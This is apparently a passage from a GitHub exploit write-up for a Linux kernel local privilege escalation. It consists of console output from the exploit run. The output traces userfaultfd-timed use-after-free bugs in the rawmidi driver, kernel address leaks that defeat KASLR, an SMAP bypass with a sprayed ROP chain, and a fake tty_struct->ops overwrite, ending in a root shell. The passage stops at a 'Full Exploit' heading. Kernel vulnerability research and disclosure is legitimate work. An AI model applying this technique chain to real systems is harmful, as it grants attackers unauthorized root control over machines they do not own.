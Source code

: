 ```plaintext
[*] Waiting for userfaultd to finish ..
[+] Allocate timerfd_ctx in kmalloc-256
[+] Page fault lock released
[+] timerfd_tmrproc addr : 0xffffffffbcc201f0
[+] kernel_base addr : 0xffffffffbca00000
[+] pivot addr : 0xffffffffbd2fc625
[+] Close rawmidi

[+] STEP 2 : SMAP bypass
[+] Opening rawmidi
[+] Mapping two pages
[+] Registering one page userfaultfd
[*] Start monitoring range: 0x3330000 - 0x3331000
[+] Userfaultfd registered
[+] Raising up the handler for userfaultfd
[+] Created one object by size 512
[+] Triggering userfaultfd
[+] Page Fault triggered on address 0x3331000
[+] Deleting before object created by size 512 generating UAF
[*] Waiting for userfaultd to finish ..
[+] Spray ROP Chain in kmalloc-512
[+] Page fault lock released
[+] msg_msg->m_list.next leak : 0xffff8c346fb40e00
[+] Fake tty_struct->ops function table: 0xffff8c346fb40f30
[+] Close rawmidi

[+] STEP 3 : Fake tty_struct->ops overwrite
[+] Re-opening rawmidi
[+] Mapping two pages
[+] Registering one page userfaultfd
[*] Start monitoring range: 0x5550000 - 0x5551000
[+] Userfaultfd registered
[+] Raising up the handler for userfaultfd
[+] Created one object by kmalloc-1024
[+] Triggering userfaultfd
[+] Page Fault triggered on address 0x5551000
[+] Deleting before object created by size 1024 generating UAF
[+] Allocate tty_struct in kmalloc-1024
[+] Page fault lock released
[+] uid : 0
[+] Got root.
/ # id
uid=0(root) gid=0(root)
/ # whoami
root
/ #
```

<br/>

### Full Exploit
